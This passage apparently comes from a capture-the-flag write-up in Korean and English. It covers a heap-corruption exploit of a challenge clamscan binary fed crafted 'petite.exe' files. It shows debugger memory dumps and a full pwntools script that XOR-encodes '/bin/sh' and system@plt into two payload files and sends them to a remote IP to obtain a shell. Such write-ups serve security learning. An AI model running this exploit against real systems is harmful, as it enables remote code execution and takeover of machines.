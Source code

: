디버깅을 통해 binsh가 위치할 부분과 현재 힙 거리를 연산하여 넣어주었다. 이제 값을 1byte씩 삽입할텐데 몇글자나 삽입 가능한지 보기 위하여 테스트했다.

I ran the program to see how many bytes I could write.

```
pwndbg> x/2gx 0x30150b0
0x30150b0:	0x00007fb035c9c8f0	0x00007fb035c9c900

pwndbg> continue

pwndbg> x/2gx 0x30150b0
0x30150b0:	0x313f2a14130b3500	0x00007fb035c9340c
```

총 10byte가 순차적으로 입력되었다. 파일 하나로 익스플로잇을 하는 방법도 있지만 파일 2개를 가지고 하나는 /bin/sh, 또 하나는 system@plt를 쓰는것이 편할 것이다. 파일을 2개를 넣었을 때의 offset을 확인 한 뒤 xor에 주의하여 익스플로잇을 완성하면 된다.

익스플로잇 코드는 다음과 같다.

I can write 10 byte. it's also exploitable with one file, but it's simpler to use two files. I wrote /bin/sh with the first file and system@plt with the second file. Be careful about offset and xor when you are doing Exploit.

The final code is as follows.


```python
from pwn import *

def encode(data):
    result = ''
    size = 0x63
    data = data.ljust(10, '\x00')

    for i in range(10):
        result += chr(ord(data[i]) ^ size)
        size -= 1

    return result
    
#p = remote("localhost", 10000)
p = remote("141.164.48.191", 10000)
e = ELF('./clamscan')

data = open("petite.exe").read()

original_offset = '\x74\x60\x00\x00'
original_ssrc = "VirtualPro"
binsh_offset = p32(0x180d0-1)
system_offset = p32(0x7c318-1)

payload = data.replace(original_offset, binsh_offset)
payload = payload.replace(original_ssrc, encode('/bin/sh'))

payload2 = data.replace(original_offset, system_offset)
payload2 = payload2.replace(original_ssrc, encode(p64(e.sym['system'])))

p.sendlineafter(': ', '2')
p.sendlineafter(': ', str(len(payload)))
p.sendafter(': ', payload)
p.sendlineafter(': ', str(len(payload2)))
p.sendafter(': ', payload2)

p.interactive()
```
